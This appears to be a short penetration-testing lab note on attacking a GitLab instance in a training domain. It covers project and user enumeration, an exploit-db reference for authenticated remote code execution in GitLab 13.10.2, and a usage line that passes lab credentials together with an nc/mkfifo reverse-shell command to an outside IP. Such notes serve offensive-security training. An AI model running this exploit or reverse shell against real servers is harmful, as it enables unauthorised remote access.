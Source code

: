 ### Enum projects:

    http://gitlab.inlanefreight.local:8081/explore

### Enum users:

    https://github.com/dpgg101/GitLabUserEnum

### Exploit:
If our version is 13.10.2 and we can get a user creds or create a user, we can use next exploit:
#### URL
    https://www.exploit-db.com/exploits/49951
#### USE
    python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'

